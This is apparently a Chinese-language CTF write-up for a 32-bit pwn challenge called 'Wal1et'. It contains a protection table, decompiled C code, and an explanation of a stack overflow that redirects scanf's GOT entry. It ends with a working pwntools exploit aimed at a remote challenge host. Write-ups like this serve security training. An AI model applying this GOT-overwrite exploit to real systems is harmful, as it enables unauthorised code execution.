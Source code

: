 # pwn-1

Wal1et

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x32   |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

```c
void check(void)

{
  int local_14;
  int local_10;
  
  printf("Now try the First password : ");
  __isoc99_scanf("%d",local_14);
  fflush(_stdin);
  printf("Now try the Second password : ");
  __isoc99_scanf("%d",local_10);
  puts("Let me think......");
  if ((local_14 == 0x528e6) && (local_10 == 0xcc07c9)) {
    puts("OMG!YOU SUCCESS!"); // check + 0x98
    system("/bin/cat flag");
    return;
  }
  puts("You Failed! Try again.");
                    // WARNING: Subroutine does not return
  exit(0);
}
```

审计`check`函数的代码，32位，`local_14`和`local_10`既是int也是指针。在函数`begin`中，
可以输入大量数据覆盖栈帧，而这两个指针的值并未经过初始化，从而可以指定这两个变量的值。
题目要求这两个变量的值为`0x528e6`和`0xcc07c9`，但它们不可能是有效的指针，在运行scanf的时候会引发SIGSEGV。
因此将其覆盖为`scanf@got`，并利用`check`中的`scanf`将`check+0x98`写入指针中，
这样在读入第二个数的时候就会跳到`scanf@plt`，再运行`scanf@got`的地址，
即从`puts("OMG!YOU SUCCESS!")`开始运行，打印出flag

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './Wal1et'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('101.132.170.0', 32687)
    elf = ELF(EXE)
    scanfGot = elf.got['__isoc99_scanf']

    sh.sendlineafter(b'JUST', b'1')
    # reach the length of %108s, so use send to prevent \n drop down
    sh.sendafter(b'name', b'Rocket'.ljust(0x64, b'\0') + p32(scanfGot) + p32(scanfGot))
    sh.sendlineafter(b'First', str(0x804871b).encode()) # check + 0x98
    sh.sendlineafter(b'Second', str(0x804871b).encode())

    sh.recvuntil(b'flag{')
    flag = sh.recvuntil(b'}')
    success(f'{GOLD_TEXT("Flag is:")} {"flag{"}{flag.decode()}')
    sh.close()
```
